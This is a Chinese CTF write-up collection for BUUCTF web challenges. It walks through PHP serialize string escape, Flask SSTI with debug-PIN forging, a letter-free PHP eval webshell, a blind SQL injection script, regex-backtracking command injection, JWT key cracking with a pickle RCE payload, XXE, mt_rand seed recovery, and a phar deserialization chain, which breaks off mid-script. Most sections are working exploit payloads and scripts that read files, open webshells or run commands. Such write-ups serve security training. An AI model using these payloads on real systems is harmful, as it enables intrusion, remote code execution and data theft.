无 sql 注入, 文件上传等漏洞, 也没有 session 反序列化 (解析引擎未知)

下面贴出几段关键的地方

profile.php

```php
<?php
    require_once('class.php');
    if($_SESSION['username'] == null) {
        die('Login First'); 
    }
    $username = $_SESSION['username'];
    $profile=$user->show_profile($username);
    if($profile  == null) {
        header('Location: update.php');
    }
    else {
        $profile = unserialize($profile);
        $phone = $profile['phone'];
        $email = $profile['email'];
        $nickname = $profile['nickname'];
        $photo = base64_encode(file_get_contents($profile['photo']));
?>
```

update.php

```php
<?php
    require_once('class.php');
    if($_SESSION['username'] == null) {
        die('Login First'); 
    }
    if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

        $username = $_SESSION['username'];
        if(!preg_match('/^\d{11}$/', $_POST['phone']))
            die('Invalid phone');

        if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
            die('Invalid email');
        
        if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
            die('Invalid nickname');

        $file = $_FILES['photo'];
        if($file['size'] < 5 or $file['size'] > 1000000)
            die('Photo size error');

        move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
        $profile['phone'] = $_POST['phone'];
        $profile['email'] = $_POST['email'];
        $profile['nickname'] = $_POST['nickname'];
        $profile['photo'] = 'upload/' . md5($file['name']);

        $user->update_profile($username, serialize($profile));
        echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
    }
    else {
?>
```

class.php

```php
<?php

class user extends mysql{
    ......
    public function update_profile($username, $new_profile) {
        $username = parent::filter($username);
        $new_profile = parent::filter($new_profile);

        $where = "username = '$username'";
        return parent::update($this->table, 'profile', $new_profile, $where);
    }
    ......
}

class mysql {
    ......
    public function filter($string) {
        $escape = array('\'', '\\\\');
        $escape = '/' . implode('|', $escape) . '/';
        $string = preg_replace($escape, '_', $string);

        $safe = array('select', 'insert', 'update', 'delete', 'where');
        $safe = '/' . implode('|', $safe) . '/i';
        return preg_replace($safe, 'hacker', $string);
    }
    ......
}
```

利用点只能是 serialize 和 unserialize 的部分

这里每次**序列化后**的数据都会交给 filter 函数进行过滤, 过滤的时候存在字符串替换

自然就想到了反序列化字符串逃逸漏洞

前几个 select insert update delete 替换成 hacker 字符数不变, 只有 where 替换成 hacker 是增多了一个字符, 所以从 where 入手

逃逸位置以 nickname 为例, 其它地方同理, 就是麻烦一点

preg_match strlen 本地数组绕过可行

测试代码

```php
<?php

if(preg_match('/[^a-zA-Z0-9_]/', $_GET['nickname']) || strlen($_GET['nickname']) > 10){
    die('Invalid nickname');
}

$profile['phone'] = '13888888888';
$profile['email'] = '123@qq.com';
$profile['nickname'] = $_GET['nickname'];
$profile['photo'] = 'upload/' . md5('1.jpg');

$safe = array('select', 'insert', 'update', 'delete', 'where');
$safe = '/' . implode('|', $safe) . '/i';

echo preg_replace($safe, 'hacker', serialize($profile));
var_dump(unserialize(preg_replace($safe, 'hacker', serialize($profile))));
?>
```

先输入长字符测试绕过


因为提交的是 `nickname[]=xxxx`, 序列化的结果是数组, 所以 payload 需要多闭合一个大括号

```
";}s:5:"photo";s:10:"config.php";}
```

长度为 34, 需要敲 34 个 where

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```



逃逸成功, 我们再回到题目中

先注册用户, 然后修改 profile, nickname 处填入 payload


再访问 profile.php 右键查看 base64 数据, 解码后得到 flag


## [BSidesCF 2019]Kookie(改cookie)

用默认的 cookie/monster 登录

然后 cookie 中修改 username=admin


## [GYCTF2020]FlaskApp(base64编码的flask SSTI,python PIN码构造)


提示如下


参考文章 [https://xz.aliyun.com/t/8092](https://xz.aliyun.com/t/8092)

大致就是说, 一般情况下同一台机器生成的 flask pin 是一样的, 我们可以通过 ssti 读取对应文件, 然后构造 pin 登录, 进入 debug 模式下的交互式终端, 最终 getshell

base64 解密的时候随便输点东西


点击爆出的源码右边的 logo 会显示如下内容


很明显这个 flask app 开启了 debug 模式

回到之前的报错代码


使用了 `render_template_string` 进行渲染

填入 base64 编码后的 `{{ config }}`


存在 ssti

过滤了 \_\_import\_\_ os popen 之类的关键词, 可以拼接绕过 (这时候其实可以非预期了...)

根据报错信息可以知道环境是 python3, 构造下 payload

先读取 /etc/passwd

```python


{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}


```


推测用户是 flaskweb

然后在报错信息中找到 app.py 的路径


读取 mac 地址


用 `int('bea35d10966d',16)` 转成十进制后为 `209608850314861`

最后是读取系统 id, 这个在不同 flask 版本 (2020.1.5 前后) 的拼接方式还不太一样... 参考文章里写的比较详细

测试的时候发现直接读取 /etc/machine-id 就行


利用文章里给出的脚本生成 pin

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '209608850314861',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

```
273-975-565
```

输入后得到交互式终端


非预期解的方式是直接字符串拼接绕过过滤, 然后导入 os 执行命令

```python


{{x.__init__.__globals__['__builtins__']['__imp' + 'ort__']('o'+'s').__dict__['po' + 'pen']('cat /this_is_the_f'+'lag.txt').read() }}


```

## [极客大挑战 2019]RCE ME(无字母数字RCE,disable_functions)

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
  $code=$_GET['code'];
  if(strlen($code)>40){
      die("This is too Long.");
   }
  if(preg_match("/[A-Za-z0-9]+/",$code)){
      die("NO.");
    }
  @eval($code);
}
else{
  highlight_file(__FILE__);
}
?>
```

考察无字母数字 webshell

php7 环境, 可以直接用取反

```php
<?php
echo urlencode(~"assert");
echo "<br/>";
echo urlencode(~'eval($_REQUEST[1]);');
?>
```

使用 system 执行命令失败了, 估计是开了 disable_functions, 换成了一句话

```
(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AD%BA%AE%AA%BA%AC%AB%A4%CE%A2%D6%C4);
```

看一下 phpinfo


禁用了一大堆命令执行相关的函数...

蚁剑连接后看到了 flag readflag 两个文件


直接查看 /flag 为空, 猜测是要运行 readflag 这个命令才行, 所以需要 bypass disable_functions

这里用的是 php7 backtrace UAF


## [MRCTF2020]套娃(php传参字符串解析特性，preg_match()正则绕过，ip伪造Client IP,逆函数书写)

右键源代码

```php
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

利用的是 php 字符串解析的特性, 之前也遇到过

[https://www.freebuf.com/articles/web/213359.html](https://www.freebuf.com/articles/web/213359.html)

将 `b_u_p_t` 改成 `b.u.p.t`


还需要绕过正则, 加一个 `%0a` 就可以了, 因为这里默认是单行匹配, 不会匹配到换行符


访问 secrettw.php


aaencode, 在 F12 控制台中输入


post 一下


```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

检测 ip 的原理经测试发现利用的是 `Client-IP`, 2333 的传参可以用 data 协议

然后 change 这里很容易就可以写出对应的逆函数

```php
<?php
function encode($v){
  $re = '';
  for ($i=0;$i<strlen($v);$i++){
    $re .= chr(ord($v[$i]) - $i*2);
  }
  return base64_encode($re);
}

echo encode('php://filter/read=convert.base64-encode/resource=flag.php');
?>
```


## [WUSTCTF2020]颜值成绩查询（bool盲注）

简单 sql 注入

```python
import time
import requests

url = 'http://4970b328-dd5a-492d-bd32-f084c1f25f13.node4.buuoj.cn:81/index.php?stunum=1'

dicts = ',{}-0123456789abcdefgl'

flag = ''

for i in range(1,100):
    for s in dicts:
        time.sleep(0.5)
        payload = '/**/and/**/ascii(substr((select/**/group_concat(flag,value)/**/from/**/flag),{},1))={}'.format(i,ord(s))
        res = requests.get(url + payload, timeout=30)
        if 'admin' in res.text:
            flag += s
            print(flag)
```

## [FBCTF2019]RCEService(preg_match正则绕过，/bin/cat 绝对路径执行命令绕过沙盒)


一开始 cmd 怎么传也不行, 看了 wp 才知道 get 需要这样传参

```
?cmd={"cmd":"ls"}
```

题目源码找不出来, 但是看原题的 wp 是有源码的, 不知道什么情况...

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

putenv 相当于一个简陋的沙盒, 让 shell 默认从 `/home/rceservice/jail` 下寻找命令, 后面看的时候发现这个目录下只有一个 ls, 但其实使用绝对路径执行命令 (/bin/cat) 就能够绕过限制了

is_string 限制了传参不能为数组, 所以这里的关键点是如何绕过 `preg_match`

其中正则使用了 `.*`, 而且后面跟了一大堆需要过滤的字符, 可以尝试回溯绕过

查找后发现 flag 在 /home/rceservice/flag 里面, 然后通过绝对路径指定 cat

```python
import requests
import json

url = 'http://d74b595f-f641-43c5-87fb-36ddfabc88f0.node4.buuoj.cn:81/'

data = {
    "cmd": r'{"cmd":"/bin/cat /home/rceservice/flag","aa":"' + 'a'*1000000 +'"}'
}

res = requests.post(url,data=data)
print(res.text)
```


另外一种方式是用换行符 `%0a` 绕过, 因为 `.` 不匹配换行符

参考文章 [https://www.cnblogs.com/20175211lyz/p/12198258.html](https://www.cnblogs.com/20175211lyz/p/12198258.html)


```
cmd={%0a"cmd":"/bin/cat%20/home/rceservice/flag"%0a}
```


不过还不太清楚为啥 `%0a` 要加在大括号里面...

## [Zer0pts2020]Can you guess it?（basename()绕过）

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

考察 basename 的绕过, 源码后面的 hash_equals 应该没有办法绕过 (障眼法?)

参考文章 [https://www.cnblogs.com/yesec/p/15429527.html](https://www.cnblogs.com/yesec/p/15429527.html)

>With the default locale setting "C", basename() drops non-ASCII-chars at the beginning of a filename.
>
>在使用默认语言环境设置时，basename() 会删除文件名开头的非 ASCII 字符。

测试后发现非 ASCII 字符必须要加在 `/` 的后面, 例如

```
/index.php/NON_ASCII
/index.php/NON_ASCIIindex.php
```

fuzz 一下非 ASCII 字符

```php
<?php
for($i=0;$i<255;$i++){
  $filename = 'config.php/'.chr($i);
  if (basename($filename) === 'config.php'){
    echo urlencode(chr($i));
    echo "<br/>";
  }
}
?>
```

```
%2F
%5C
%81
%82
%83
......
%FD
%FE
%FF
```

`%2F` 是 `/`, 在正则的过滤名单里, `%5C` 是 `\`, 但实际测试发现会读取 `\` 这个不存在的文件

其余的字符都可以绕过, 这里用 `%FF`



## [CISCN2019 华北赛区 Day1 Web2]ikun（jwt,python pickle反序列化）

buu 提示是 python pickle 反序列化


猜测可能是要买 lv6 的账号, 翻了几页发现还挺多的, 于是用脚本跑一下

```python
import requests
import time

for i in range(1,501):
    time.sleep(0.2)
    url = 'http://93325b5c-aa6b-4779-8b56-fa3d3561c79d.node4.buuoj.cn:81/shop?page=' + str(i)
    res = requests.get(url)
    if 'lv6.png' in res.text:
        print('FOUND!',i)
        break
    else:
        print(i)
```

跑出来在第 181 页


购买的时候要登陆, 先注册一个账号


加入购物车


钱不够... 抓包看看能不能改价格


更改 price 一直显示操作失败, 改 discount 就可以了

之后会跳转到 /b1g_m4mber 这个地址


去爆破了一下 admin 的密码, 尝试 sql 注入都失败了

想着是不是伪造 cookie, 结果倒是发现了 jwt


参考文章如下

[https://si1ent.xyz/2020/10/21/JWT%E5%AE%89%E5%85%A8%E4%B8%8E%E5%AE%9E%E6%88%98/](https://si1ent.xyz/2020/10/21/JWT%E5%AE%89%E5%85%A8%E4%B8%8E%E5%AE%9E%E6%88%98/)

jwt.io 在线解密


思路应该是构造 username=admin

尝试把加密算法设置为 None, 结果报了 500

然后尝试爆破 jwt key (后期看 wp 发现依据是 jwt 长度较短?)

[https://github.com/brendan-rius/c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)


key 为 1Kun

然后去 jwt.io 生成 admin 的 jwt token


发现 www.zip, 下载解压


Admin.py

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

存在 pickle 反序列化, payload 如下

```
c__builtin__
eval
p0
(S"__import__('os').popen('cat /flag.txt').read()"
p1
tp2
Rp3
.
```


post 请求的时候需要加上 `_xsrf`, 我就在之前的请求包里面随便找了一个, 不加的话会返回 403

## [CSCCTF 2019 Qual]FlaskLight（SSTI,flask，fenjing一把梭）


get 传参 search=123


猜测有 ssti


之后就是用 builtins + eval 执行命令

测试后发现过滤了 globals, 但是 request.args 以及各种符号没有被过滤

payload 如下

```python
{{ ''[request.args.a][request.args.b][-1][request.args.c]()[59][request.args.d][request.args.e][request.args.f][request.args.g](request.args.h) }}
```

get 传参

```
&a=__class__&b=__mro__&c=__subclasses__&d=__init__&e=__globals__&f=__builtins__&g=eval&h=__import__('os').popen('whoami').read()
```


看 wp 的时候发现还可以用 subprocess.Popen 执行命令

```python
{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

另外还有类似 `__init__["__glo"+"bals__"]` 的拼接, 未测试

## [NCTF2019]True XML cookbook（xxe获取内网ip的不同文件尝试）

跟之前有一题差不多, 也是 xxe


读取 /flag 提示找不到文件, 猜测可能是在内网中

下面是一些可能获取到内网 ip 的敏感文件

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```

这题弄了好久, arp 表里的地址不行, 反而是 fib_trie 里的能够得到 flag


爆破一下内网网段


## [GWCTF 2019]枯燥的抽奖（php伪随机数漏洞,php_mt_seed的使用）


check.php

```php
5ZedaSs3I5

<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php");
```

考察伪随机数漏洞

先设置一个 0-999999999 的种子, 然后调用 20 次 mt_rand 从大小写字母和数字中截取内容拼接得到 str

str 截取 0-10 位后就是 `5ZedaSs3I5`

伪随机数的相关文章链接这里就不写了, 之前也见过几次

最主要的还是 `php_mt_seed` 工具的使用

```
php_mt_seed xxx # 其中 xxx 为用 mt_srand 播种后生成的第一个伪随机数

php_mt_seed a b c d ... # a-b 为生成的随机数的范围, c-d 对应 mt_rand(c,d)
```

其中第二种使用方法可以设置多个随机数序列, 然后依靠这个序列得到最初生成的种子

首先根据源码生成能够被 `php_mt_seed` 识别的格式

```python
d = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ' # length:62
c = '5ZedaSs3I5'

output = ''

for s in c:
    output += str(d.index(s)) + ' ' + str(d.index(s)) + ' 0 61 '
print(output)
```

```
31 31 0 61 61 61 0 61 4 4 0 61 3 3 0 61 0 0 0 61 54 54 0 61 18 18 0 61 29 29 0 61 44 44 0 61 31 31 0 61
```

然后跑一下

```
./php_mt_seed 31 31 0 61 61 61 0 61 4 4 0 61 3 3 0 61 0 0 0 61 54 54 0 61 18 18 0 61 29 29 0 61 44 44 0 61 31 31 0 61
```


本地生成完整的字符串 (注意 php 版本)

```php
<?php
mt_srand(664291815);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
echo $str;
?>
```

提交得到 flag



## [CISCN2019 华北赛区 Day1 Web1]Dropbox（反序列化，phar反序列化，代码审计）


登录和注册的地方都没有 sql 注入

先注册一个 test 用户登录看看


左上角可以上传文件


有下载和删除两个选项

先看看下载


然后把源码都弄下来


download.php

```php
<?php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}

if (!isset($_POST['filename'])) {
    die();
}

include "class.php";
ini_set("open_basedir", getcwd() . ":/etc:/tmp");

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
} else {
    echo "File not exist";
}
?>
```

class.php

```php
<?php
error_reporting(0);
$dbaddr = "127.0.0.1";
$dbuser = "root";
$dbpass = "root";
$dbname = "dropbox";
$db = new mysqli($dbaddr, $dbuser, $dbpass, $dbname);

class User {
    public $db;

    public function __construct() {
        global $db;
        $this->db = $db;
    }

    public function user_exist($username) {
        $stmt = $this->db->prepare("SELECT `username` FROM `users` WHERE `username` = ? LIMIT 1;");
        $stmt->bind_param("s", $username);
        $stmt->execute();
        $stmt->store_result();
        $count = $stmt->num_rows;
        if ($count === 0) {
            return false;
        }
        return true;
    }

    public function add_user($username, $password) {
        if ($this->user_exist($username)) {
            return false;
        }
        $password = sha1($password . "SiAchGHmFx");
        $stmt = $this->db->prepare("INSERT INTO `users` (`id`, `username`, `password`) VALUES (NULL, ?, ?);");
        $stmt->bind_param("ss", $username, $password);
        $stmt->execute();
        return true;
    }

    public function verify_user($username, $password) {
        if (!$this->user_exist($username)) {
            return false;
        }
        $password = sha1($password . "SiAchGHmFx");
        $stmt = $this->db->prepare("SELECT `password` FROM `users` WHERE `username` = ?;");
        $stmt->bind_param("s", $username);
        $stmt->execute();
        $stmt->bind_result($expect);
        $stmt->fetch();
        if (isset($expect) && $expect === $password) {
            return true;
        }
        return false;
    }

    public function __destruct() {
        $this->db->close();
    }
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct($path) {
        $this->files = array();
        $this->results = array();
        $this->funcs = array();
        $filenames = scandir($path);

        $key = array_search(".", $filenames);
        unset($filenames[$key]);
        $key = array_search("..", $filenames);
        unset($filenames[$key]);

        foreach ($filenames as $filename) {
            $file = new File();
            $file->open($path . $filename);
            array_push($this->files, $file);
            $this->results[$file->name()] = array();
        }
    }

    public function __call($func, $args) {
        array_push($this->funcs, $func);
        foreach ($this->files as $file) {
            $this->results[$file->name()][$func] = $file->$func();
        }
    }

    public function __destruct() {
        $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">';
        $table .= '<thead><tr>';
        foreach ($this->funcs as $func) {
            $table .= '<th scope="col" class="text-center">' . htmlentities($func) . '</th>';
        }
        $table .= '<th scope="col" class="text-center">Opt</th>';
        $table .= '</thead><tbody>';
        foreach ($this->results as $filename => $result) {
            $table .= '<tr>';
            foreach ($result as $func => $value) {
                $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
            }
            $table .= '<td class="text-center" filename="' . htmlentities($filename) . '"><a href="#" class="download">下载</a> / <a href="#" class="delete">删除</a></td>';
            $table .= '</tr>';
        }
        echo $table;
    }
}

class File {
    public $filename;

    public function open($filename) {
        $this->filename = $filename;
        if (file_exists($filename) && !is_dir($filename)) {
            return true;
        } else {
            return false;
        }
    }

    public function name() {
        return basename($this->filename);
    }

    public function size() {
        $size = filesize($this->filename);
        $units = array(' B', ' KB', ' MB', ' GB', ' TB');
        for ($i = 0; $size >= 1024 && $i < 4; $i++) $size /= 1024;
        return round($size, 2).$units[$i];
    }

    public function detele() {
        unlink($this->filename);
    }

    public function close() {
        return file_get_contents($this->filename);
    }
}
?>
```

其中 File 类里面的 open 方法调用了 file_exists 和 is_dir

加上 buu 提示的 phar, 应该是 phar 反序列化

然后看一下 User 类

```php
public function __destruct() {
    $this->db->close();
}
```

其中的 close 和 File 类中的 close 同名, 利用这里的条件可以触发 `file_get_contents`

不过问题在于直接调用会没有回显

绕了一圈发现 FileList 类中的 `__call` 和 `__destruct` 有点意思

```php
public function __call($func, $args) {
    array_push($this->funcs, $func);
    foreach ($this->files as $file) {
        $this->results[$file->name()][$func] = $file->$func();
    }
}

public function __destruct() {
    $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">';
    $table .= '<thead><tr>';
    foreach ($this->funcs as $func) {
        $table .= '<th scope="col" class="text-center">' . htmlentities($func) . '</th>';
    }
    $table .= '<th scope="col" class="text-center">Opt</th>';
    $table .= '</thead><tbody>';
    foreach ($this->results as $filename => $result) {
        $table .= '<tr>';
        foreach ($result as $func => $value) {
            $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
        }
        $table .= '<td class="text-center" filename="' . htmlentities($filename) . '"><a href="#" class="download">下载</a> / <a href="#" class="delete">删除</a></td>';
        $table .= '</tr>';
    }
    echo $table;
}
```

这里的 `$results` 存储着每一个 File 对象调用 `$func()` 方法返回的结果

而且 `__destruct` 方法会将 `$results` 的结果输出

所以我们可以通过 User 中的 `$this->db->close()` 触发 FileList 类的 `__call`, 然后继续对每一个 File 调用 `close`, 最后在析构的时候将 `file_get_contents` 返回的结果输出

利用链如下

```php
<?php

class User{
    public $db;
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    function __construct($files, $results, $funcs){
        $this->files = $files;
        $this->results = $results;
        $this->funcs = $funcs;
    }
}

class File{
    public $filename;
}


$c = new File();
$c->filename = '/flag.txt';

$b = new FileList(array($c),array('flag.txt'=>array()),array());

$a = new User();
$a->db = $b;

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
